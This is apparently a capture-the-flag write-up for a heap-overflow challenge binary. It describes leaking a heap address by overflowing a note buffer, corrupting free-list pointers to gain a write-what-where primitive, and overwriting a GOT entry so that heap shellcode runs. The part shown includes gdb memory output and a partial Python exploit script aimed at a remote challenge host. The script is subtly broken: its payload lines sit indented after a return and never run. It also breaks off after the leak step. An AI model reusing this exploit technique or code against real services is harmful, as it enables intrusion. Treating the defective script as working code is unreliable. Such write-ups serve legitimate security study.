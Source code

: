 I recently tested c0ne's binaries for his Pandora's Box VM. I did one of the challenges in a similar way: overflow a buffer up to a certain pointer to grab extra bytes when that buffer is printed. I could leak the heap address by sending just enough bytes into note one to make the heap look like this:

```
gdb-peda$ x/60wx 0x804d0c0
0x804d0c0:  0x42424242  0x42424242  0x42424242  0x42424242
0x804d0d0:  0x42424242  0x42424242  0x42424242  0x42424242
0x804d0e0:  0x42424242  0x42424242  0x42424242  0x42424242
0x804d0f0:  0x4242420a  0x0804d1d0  0x0804d010  0x42424242
0x804d100:  0x0000000a  0x00000000  0x00000000  0x00000000
0x804d110:  0x00000000  0x00000000  0x00000000  0x00000000
```

When I know requested the value of note one, the binary would dump out lots of B's, but also append the pointers from the heap! With that sorted, I could find my shellcode on the heap even with ASLR enabled. Next was overwriting a GOT pointer. This was done by overflowing a note and overwriting the pointers to `next_note` and `prev_note`. Then I'd ask the binary to delete a note. It does this by calling `free()`. Because we can control the two pointers, we have a write-what-where primitive. By setting the right values, I could write the address of the shellcode on the heap to `__isoc99_scanf@got.plt`. Initially, I swapped the two memory addresses around, leading to mangled shellcode. After overwriting the GOT pointer of `__isoc99_scanf@got.plt`, which is one of the next functions the binary calls in its main loop, the shellcode on the heap is executed. Because of the way `free()` works, we need to adjust the addresses a bit. 

The [shellcode](http://www.shell-storm.org/shellcode/files/shellcode-547.php) was modified a bit ('/bin/ash' -> '/bin//sh') and stored on the heap. The overflow was used to overwrite the two pointers, and the write-what-where is triggered by sending a 'delete note' command.

The exploit:

```python
import struct
import socket
import time
import re

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('54.163.248.69', 9004))

s.recv(1000)
time.sleep(0.5)

def p(x):
    return struct.pack('<L', x)

    payload  = "1\n1\n1\n1\n"   # create two notes of type one
    payload += "3\n0\n2\n"      # edit note 0 as type two

    s.send(payload)
    time.sleep(0.5)

# overflow note to line up to heap pointer
s.send("A"*212+"BBB\n")

time.sleep(0.5)
s.recv(256)

# leak heap addr
print "[+] Trying to leaking heap address..."
time.sleep(0.5)

s.send("4\n0\n")
time.sleep(0.5)

```